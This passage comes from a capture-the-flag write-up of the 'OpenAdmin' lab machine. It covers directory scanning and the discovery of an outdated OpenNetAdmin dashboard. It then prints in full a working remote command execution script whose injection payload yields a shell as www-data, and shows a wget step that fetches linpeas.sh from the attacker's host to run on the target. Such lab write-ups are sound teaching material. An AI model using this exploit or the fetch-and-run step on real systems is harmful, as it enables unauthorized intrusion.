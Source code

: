 ```sh
/.htpasswd (Status: 403)
/.hta (Status: 403)
/.htaccess (Status: 403)
/artwork (Status: 301)
/index.html (Status: 200)
/music (Status: 301)
/server-status (Status: 403)
===============================================================
2020/03/18 13:35:19 Finished
===============================================================
```

With the first scan, we can see two folders: `artwork` and `music`, let's check them out. Wow, these are good looking websites by `Colorlib`. Cool, but we cannot find anything else in terms of folders. We can however check the cookies and see if something stands out

<img src="{{site.baseurl}}/assets/img/posts/openadmin/1.png" alt="1" style="display: block;  margin-left: auto; margin-right: auto;" />

and indeed we have two `ONA` cookies. The first one has a path mentioned : `/ona`. Does that work in the URL? Yes, we have a dashboard `OpenNetAdmin` (Now I get the name of the box :) ). We can note two things:

- First we are logged in as guest. try to change to `admin:admin` does not work.
- Second, the version is not up to date.

<img src="{{site.baseurl}}/assets/img/posts/openadmin/2.png" alt="2" style="display: block;  margin-left: auto; margin-right: auto;" />

Looking online, we can see that `OpenNetAdmin` is vulnerable to Remote Command Execution described here [https://www.exploit-db.com/exploits/47691](https://www.exploit-db.com/exploits/47691). A bash script is provided where one needs to modify the URL, to our target:

```sh
$cat rce.sh
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done

$sh rce.sh
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Running this scripts we get a elementary shell, we can easily upload a payload. In our case, we'll use `linspead.sh` to scan for any enumeration. To do that, we make a simple server on our host and wget to our target the file.

```sh
[LOCAL]
$python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...


[# ]ON TARGET]
$ wget http://10.10.14.126:8081/linpeas.sh
$ sh linpeas.sh > linpeas.out
[WAIT FOR FINISH]


[LOCAL]

```